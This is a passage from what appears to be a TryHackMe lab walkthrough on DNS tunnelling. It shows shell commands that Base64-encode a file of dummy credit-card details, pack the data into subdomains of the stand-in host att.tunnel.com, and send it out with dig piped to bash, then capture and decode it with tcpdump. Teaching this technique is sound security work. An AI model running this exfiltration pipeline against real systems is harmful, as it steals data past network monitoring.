 In the previous command, we read the file's content and encoded it using Base64. Then, we cleaned the string by removing the new lines and gathered every 18 characters as a group. Finally, we appended the name server "att.tunnel.com" for every group.&#x20;

Let's check the other way where we send a single DNS request, which we will be using for our data exfiltration. This time, we split every 18 characters with a dot "." and add the name server similar to what we did in the previous command.

Splitting the content into a singleDNSrequest

```markup
thm@victim2:~$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/
TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com
```

Next, from the victim2 machine, we send the base64 data as a subdomain name with considering the DNS limitation as follows:

Send the Encoded data via the dig command

```markup
thm@victim2:~$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ | awk '{print "dig +short " $1}' | bash
```

With some adjustments to the single DNS request, we created and added the dig command to send it over the DNS, and finally, we passed it to the bash to be executed. If we check the Attacker's tcpdump terminal, we should receive the data we sent from victim2.

Receiving the Data Using tcpdump

```markup
thm@attacker:~$ sudo tcpdump -i eth0 udp port 53 -v
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
22:14:00.287440 IP (tos 0x0, ttl 64, id 60579, offset 0, flags [none], proto UDP (17), length 104)
    172.20.0.1.56092 > attacker.domain: 19543% [1au] A? _.pDb2RlOiAxMzM3Cg==.att.tunnel.com. (76)
22:14:00.288208 IP (tos 0x0, ttl 64, id 60580, offset 0, flags [none], proto UDP (17), length 235)
    172.20.0.1.36680 > attacker.domain: 23460% [1au] A? TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com. (207)
22:14:00.289643 IP (tos 0x0, ttl 64, id 48564, offset 0, flags [DF], proto UDP (17), length 69)
    attacker.52693 > 172.20.0.1.domain: 3567+ PTR? 1.0.20.172.in-addr.arpa. (41)
22:14:00.289941 IP (tos 0x0, ttl 64, id 60581, offset 0, flags [DF], proto UDP (17), length 123)
    172.20.0.1.domain > attacker.52693: 3567 NXDomain* 0/1/0 (95)
```

Once our DNS request is received, we can stop the tcpdump tool and clean the received data by removing unwanted strings, and finally decode back the data using Base64 as follows,

Cleaning and Restoring the Receiving Data

```markup
thm@attacker:~$ echo "TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com." | cut -d"." -f1-8 | tr -d "." | base64 -d
Name: THM-user
Address: 1234 Internet, THM
Credit Card: 1234-1234-1234-1234
Expire: 05/05/2022
Code: 1337
```
